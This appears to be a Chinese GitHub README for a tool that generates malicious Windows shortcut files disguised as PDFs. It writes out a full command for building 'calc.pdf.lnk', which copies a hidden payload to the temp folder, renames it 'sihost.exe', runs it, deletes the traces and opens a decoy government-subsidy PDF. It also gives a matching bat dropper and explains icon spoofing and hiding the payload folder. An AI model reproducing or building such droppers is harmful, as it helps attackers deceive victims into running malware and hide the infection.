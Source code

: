 
### 1.快捷方式生成
参考 www.x86matthew.com 的项目，原文链接已删除。 
2023年7月份改的代码，主要配合bat/vbs脚本调用，图标替换通过010editor进行修改，之前本想将其写成个 操作友好的工具，但由于部分原因没弄成

```
linkgen.exe calc.pdf.lnk "test" "xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk" & del /F /A /Q "%cd%__MACOSX.DOCX\wct366A.tmp" & copy "%cd%__MACOSX.DOCX\电子商务产业发展扶持奖励政策.pdf" "%cd%\XXX电子商务产业发展扶持奖励政策.pdf" & start "" "%cd%\XXX电子商务产业发展扶持奖励政策.pdf" & del "%cd%__MACOSX.DOCX\XXX电子商务产业发展扶持奖励政策.pdf" "
```

### 2.图标处理
参考 https://www.cnblogs.com/f-carey/p/16542156.html#tid-sywapk 
<img width="910" alt="image" src="https://github.com/user-attachments/assets/1372ea03-f5ee-4e01-ba5b-d83d7ab8424d">

### 3.bat脚本
```
xcopy /h /y %cd%__MACOSX.DOCX\calc.tmp %temp%\ & attrib -s -a -h %temp%\calc.tmp & rename %temp%\calc.tmp sihost.exe & attrib -s -a -h %cd%__MACOSX.DOCX\calc.tmp & start %temp%\sihost.exe & del "calc.pdf.lnk"  &  del /F /A /Q %cd%__MACOSX.DOCX\calc.tmp
```

### 4.文件夹隐藏
打开隐藏后效果如下，正常情况默认隐藏 .__MACOSX 文件夹

<img width="1424" alt="image" src="https://github.com/user-attachments/assets/8e49da65-02ff-471b-a17b-b04cff7187ea">
